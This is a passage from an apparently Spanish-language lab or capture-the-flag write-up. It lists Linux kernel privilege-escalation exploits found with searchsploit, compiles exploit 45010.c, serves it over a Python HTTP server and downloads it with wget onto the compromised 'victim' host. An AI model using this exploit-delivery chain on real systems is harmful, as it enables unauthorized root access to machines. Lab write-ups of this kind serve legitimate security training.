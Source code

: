 ```bash
Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation             | linux/local/45553.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                 | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                        | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escala | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privile | linux/local/47169.c
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Esta programado en `C`

```bash
❯ gcc 45010.c -o exploit
❯ cat 45010.c | grep gcc
  gcc cve-2017-16995.c -o cve-2017-16995

```

```bash
❯ ls
 45010.c   exploit   php_filter_chain_generator.py   ssh_user_enumeration.py
```

Vamos a enviarlo a la maquina victima

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.65 - - [03/Mar/2023 21:52:26] "GET /exploit HTTP/1.1" 200 -
```

```bash
www-data@ubuntu:/tmp$ wget http://192.168.1.67/exploit
--2023-03-03 19:52:27--  http://192.168.1.67/exploit
Connecting to 192.168.1.67:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 25736 (25K) [application/octet-stream]
Saving to: 'exploit'

exploit                         100%[=======================================================>]  25.13K  --.-KB/s    in 0s      

2023-03-03 19:52:27 (443 MB/s) - 'exploit' saved [25736/25736]

www-data@ubuntu:/tmp$ 

```
